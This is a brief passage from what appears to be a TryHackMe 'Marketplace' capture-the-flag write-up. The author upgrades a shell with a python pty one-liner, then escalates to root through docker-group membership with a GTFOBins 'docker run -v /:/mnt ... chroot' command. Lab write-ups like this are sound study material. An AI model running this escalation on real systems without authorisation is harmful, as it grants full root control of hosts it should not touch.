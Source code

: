 And we're in.

![michael-in](/assets/img/tryhackme/marketplace/michael-in.png)

HUH! `999(docker)`. It’s interesting.

I'm looking at [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) to see if I can find anything about docker. 

Let's try this.

![gtf](/assets/img/tryhackme/marketplace/gtf.png)

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

And we are `root`. 
